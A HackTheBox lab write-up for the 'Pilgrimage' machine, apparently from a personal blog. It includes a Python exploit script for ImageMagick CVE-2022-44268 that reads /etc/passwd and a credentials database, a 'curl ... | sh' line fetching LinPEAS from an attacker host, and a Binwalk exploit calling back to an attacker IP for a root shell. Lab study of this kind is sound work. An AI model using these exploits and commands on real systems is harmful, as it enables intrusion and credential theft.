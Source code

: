 ```yaml
---
title: "HTB - Pilgrimage"
date: "11/10/2024"
description: "Write-up of the Pilgrimage machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://shigatena.dev/articles/htb_pilgrimage.png"
readingTime: "10"
---
```


![preview](https://www.it-connect.fr/wp-content-itc/uploads/2023/11/Pilgrimage-800x606.png)

## Initial Setup

Update your `/etc/hosts` with the entry for `pilgrimage.htb`.

## Initial Reconnaissance

Start a scan with [AutoRecon](https://github.com/Tib3rius/AutoRecon).

```bash
autorecon pilgrimage.htb -v
```

From the `tcp_80_http_feroxbuster_dirbuster` output, we notice that a `.git` repository is present.

## Web Vulnerability Exploration

To exploit the `.git` repository and pull more information, install and run `git-dumper`.

```bash
pip install git-dumper
```

```bash
~/.local/bin/git-dumper http://pilgrimage.htb/.git/ git
```

From the extracted files, an executable named `magick` is spotted. When running this executable with the `-version` argument:

```bash
./magick -version
```

We find out that the software version is `ImageMagick 7.1.0-49`. A quick search reveals a vulnerability for this version: [CVE Details](https://github.com/voidz0r/CVE-2022-44268).

Clone the repository related to the CVE and proceed.

```bash
git clone https://github.com/voidz0r/CVE-2022-44268
```

I also made a Python script to make the process easier: 
```python
import re
import sys
import requests
import subprocess
import argparse
from urllib.parse import urlparse, parse_qs

def extract_hex_data(data):
    regex_pattern = r"^([0-9a-fA-F]+\n)+$"
    match = re.search(regex_pattern, data, re.MULTILINE)
    return match.group(0) if match else None

def download_image_from_url(url):
    response = requests.get(url, stream=True)
    with open('output.png', 'wb') as file:
        for chunk in response.iter_content(chunk_size=8192): 
            file.write(chunk)

def run_cargo(arg):
    command = ["cargo", "run", arg]
    subprocess.run(command, stdout=subprocess.DEVNULL)

def convert_image_and_upload():
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
    }

    with open('image.png', 'rb') as f:
        files = {'toConvert': ('image.png', f, 'image/png')}
        response = requests.post(BASE_URL, headers=headers, files=files)
        parsed_url = urlparse(response.url)
        params = parse_qs(parsed_url.query)
        return params['message'][0]

def identify_image():
    command = ["./magick", "identify", "-verbose", "output.png"]
    result = subprocess.run(command, capture_output=True, text=True)
    return result.stdout

def main():

    parser = argparse.ArgumentParser(description="Process and send an image to a server.")
    parser.add_argument('-i', '--input_arg', help='Argument for the cargo command.')
    parser.add_argument('-u', '--url', default="http://pilgrimage.htb/", help='Base URL for the service. Default: http://pilgrimage.htb/')

    args = parser.parse_args()
    arg = args.input_arg
    global BASE_URL
    BASE_URL = args.url

    # Run the cargo command
    run_cargo(arg)
    
    # Convert the image and upload
    image_url = convert_image_and_upload()
    
    # Download the image from the returned URL
    download_image_from_url(image_url)

    # Identify the image
    data = identify_image()
    result = extract_hex_data(data)
    
    if result:
        print(bytes.fromhex(result))
    else:
        print("No sequence found.")

if __name__ == "__main__":
    main()
```

Test the PoC command with the following:

```bash
python auto_pilgrim.py -i "/etc/passwd"
```

Revert back to the folder extracted from the git dump. After analyzing the files, we notice that it tries to fetch database credentials from `/var/db/pilgrimage` as seen in `dashboard.php`.

```bash
python auto_pilgrim.py -i "/var/db/pilgrimage"
```

This command returns the password for the user Emily.

## Privilege Escalation

Pn your own machine, download LinPEAS for further enumeration:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest
```

Start a local web server:

```bash
sudo python3 -m http.server 80
```

Use the fetched password to SSH as Emily.

```bash
ssh emily@[BOX_IP]
```

And from Emily's shell:

```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```

LinPEAS points to `user.txt` for the first flag and also highlights an interesting process: `/usr/sbin/malwarescan.sh`.
On reading the shell script:

```bash
cat /usr/sbin/malwarescan.sh
```

We find out it uses `binwalk`, especially `Binwalk v2.3.2` that is vulnerable as showcased by [this exploit](https://www.exploit-db.com/exploits/51249).

Use the exploit script with a random image:

```bash
python exploit.py random_image.png [YOUR_IP] [YOUR_PORT]
```

Start a Python webserver so that we can download the image from Emily's shell :

```bash
sudo python3 -m http.server 80
```

On Emily's shell, fetch the image:

```bash
wget http://[YOUR_IP]/binwalk_exploit.png
```

Once malwarescan.sh triggers the exploit, verify that you are root:

```bash
whoami
```
Now find and display the root flag:

```bash
find / -type f -name root.txt 2>/dev/null 
cat /root/root.txt
```

Happy rooting :-)